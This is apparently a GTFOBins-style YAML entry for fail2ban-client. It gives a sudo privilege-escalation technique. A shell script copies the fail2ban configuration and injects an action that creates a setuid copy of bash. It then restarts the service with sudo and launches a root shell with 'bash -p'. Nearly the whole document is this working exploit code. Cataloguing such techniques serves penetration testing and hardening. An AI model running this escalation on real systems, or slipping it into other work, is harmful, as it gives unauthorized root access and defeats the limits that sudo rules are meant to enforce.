 ```yaml
---
functions:
  sudo:
    - description: |
        Loading tempered configuration file including code.
        Requires restarting the service.
        Since we, most likely, can't write into /etc/fail2ban/, we can copy the configuration folder to a temporary location and load this copy.
      code: |
        TD_conf=$(mktemp -d)
        rsync -av /etc/fail2ban/ $TD_conf
        TD_exploit=$(mktemp -d)
        cat > $TD_exploit/exploit <<EOF
        #!/bin/sh
        cp /bin/bash $TD_exploit/bash
        chmod 755 $TD_exploit/bash
        chmod u+s $TD_exploit/bash
        EOF
        chmod +x $TD_exploit/exploit
        cat > $TD_conf/action.d/custom-start-command.conf <<EOF
        [Definition]
        actionstart = $TD_exploit/exploit
        EOF
        cat >> $TD_conf/jail.local <<EOF
        [my-custom-jail]
        enabled = true
        action = custom-start-command
        EOF
        cat > $TD_conf/filter.d/my-custom-jail.conf <<EOF
        [Definition]
        EOF
        sudo /usr/bin/fail2ban-client -c $TD_conf -v restart
        $TD_exploit/bash -p
---
```

